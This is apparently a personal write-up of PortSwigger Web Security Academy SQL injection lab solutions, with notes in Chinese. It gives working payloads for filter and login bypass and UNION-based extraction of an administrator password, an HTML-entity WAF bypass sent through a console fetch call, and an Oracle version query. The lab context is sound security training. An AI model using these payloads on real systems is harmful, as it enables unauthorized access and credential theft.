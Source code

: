 ```yaml
---
title: PortSwigger
description: PortSwigger
---
```


## SQL Injection

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Payload

```
?category=Accessories' OR 1=1--
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Accessories' OR 1=1--'
```

### Lab: SQL injection vulnerability allowing login bypass

Payload

```
administrator' OR 1=1--
```

### Lab: SQL injection with filter bypass via XML encoding

先嘗試用 `UNION SELECT NULL` 來判斷前面的 `SELECT` 選了幾個 columns

```
1 UNION SELECT NULL--
1 UNION SELECT NULL,NULL--
```

Payload

```
1 UNION SELECT password FROM users where username = 'administrator'--
```

SQL

```sql
SELECT unit FROM stocks WHERE productId = 1 AND storeId = 1 UNION SELECT password FROM users where username = 'administrator'--'
```

轉換成 HTML Entity 來繞過 WAF

```
&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#61;&#32;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#45;&#45;
```

最終在 F12 > console 送出的 fetch 請求

```js
fetch("/product/stock", {
  headers: {
    "content-type": "application/xml",
  },
  body: '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#61;&#32;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#45;&#45;</storeId></stockCheck>',
  method: "POST",
})
  .then((res) => res.text())
  .then((res) => console.log(res));
```

console 的結果

```
020yk5zmzoy92jl364rg
217 units
```

接下來用 `administrator` + `020yk5zmzoy92jl364rg` 就可以成功登入～

### Lab: SQL injection attack, querying the database type and version on Oracle

題目給的 Hint 很重要:

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

先嘗試用 `UNION SELECT NULL FROM dual` 來判斷前面的 `SELECT` 選了幾個 columns

```
?category=Accessories' UNION SELECT NULL FROM dual--
?category=Accessories' UNION SELECT NULL,NULL FROM dual--
```

Payload

```
?category=Accessories' UNION SELECT banner,NULL FROM v$version--
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Accessories' UNION SELECT banner,NULL FROM v$version--'
```

## 參考資料
